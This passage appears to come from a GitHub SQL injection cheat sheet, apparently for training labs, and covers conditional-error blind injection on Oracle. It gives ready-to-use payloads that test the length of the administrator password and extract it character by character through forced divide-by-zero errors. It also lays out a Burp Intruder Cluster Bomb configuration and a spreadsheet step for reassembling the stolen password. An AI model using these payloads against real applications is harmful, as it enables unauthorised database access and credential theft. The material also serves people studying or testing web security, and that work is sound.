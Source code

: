 ```
'||(select case when(1=1) then to_char(1/0) else '' end from users where username='administrator')||'
```



* **Payloads to determine the length of the password for a user called administrator.**  If the password is greater than 20 characters, then an error (1/0) will result:

```
'||(select case when length(password)>20 then to_char(1/0) else '' end from users where username='administrator')||'
```


* **Extract the password of a user.**  For both payloads, if the character in the current position is correct, then the error (1/0) will execute:


    * Oracle DB:
    
```
'||(select case when(substr((select password from users where username='administrator'),1,1)='z') then to_char(1/0) else '' end from dual)||'
```

```
'||(select case when substr(password,1,1)='z' then to_char(1/0) else '' end from users where username = 'administrator')||'
```

<br>

Burp Intruder or the script in the "Scripts" folder can be used to help automate the extraction of password:

For Burp Intruder use the following configurations:
   * Attack Type:  Cluster Bomb
   * Payload Positions: 2 position markers need to be set:
      * The first one should be on the character offset position in the password
      * The second marker should be on the actually character to test
         * where username='administrator'),$$,1)='$$') 
   * Payloads:
      * First marker - Numbers From 1 to 20
      * Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)
   * View Results: Filter by the status code.  The results that contain the 500 code are the correct ones. After sorting, it should be easy to manually put together the password.
   
   * Note:  If having trouble sorting by 2 columns in Burp Suite.  You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions.  Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically. 

<br><br><br>

#### Visible Error-based SQL Injection

   * These payloads can be used when the application is returning a verbose error message in it's response.  Many times the application will display the results of the query within the error message in the response.
